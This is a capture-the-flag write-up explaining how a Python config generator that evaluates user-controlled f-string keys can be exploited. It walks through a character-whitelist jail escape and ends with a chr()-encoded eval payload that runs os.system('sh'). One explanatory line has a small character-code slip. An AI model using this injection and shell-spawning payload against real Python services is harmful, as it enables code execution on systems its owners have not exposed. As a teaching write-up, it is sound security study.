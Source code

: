 # pwn | Config Creator

The program lets you create a configuration files through python fstrings. 

It reads the keys and values and create a template which looks like this:

```python
f"""
configuration [
    key1: {key1};
    key2: {key2};
    ...
]
"""
```

Then this template is evaluated to generate the actual configuration file.

The issue is that you control the fstring, so you can set a key with a name of `dir()` for example. So your template would look like this:

```python
f"""
configuration [
    dir(): {dir()};
]
"""
```

And once evaluated it would look like this:

```bash
configuration [
    dir(): ['__builtins__', '__doc__', '__loader__', '__name__', '__package__', '__spec__']
;
]
```

So you just need to find the right string to pop a shell, sadly you quickly realize that a lot of characters are stripped. The only characters allowed are:

```python
string.digits + string.ascii_letters + "(),[]"
``` 

So it's just a jail escape :)

One way to solve this is to launch:

```python
eval("__import__('os').system('sh')")
```

But you need to build the string `"__import__('os').system('sh')"`.
This is done like this **in python3.6.4**:

```python
dir(str())[55] == "join"
getattr(str(), "join") == "".join
"__import__('os').system('sh')" == "".join(chr(91), ..., chr(41))
```

Final exploit:

```python
key = eval(getattr(str(),dir(str())[55])([chr(95),chr(95),chr(105),chr(109),chr(112),chr(111),chr(114),chr(116),chr(95),chr(95),chr(40),chr(39),chr(111),chr(115),chr(39),chr(41),chr(46),chr(115),chr(121),chr(115),chr(116),chr(101),chr(109),chr(40),chr(39),chr(115),chr(104),chr(39),chr(41)]))
value = 123
```

Please see *exploit/exploit* for the full automated exploit.
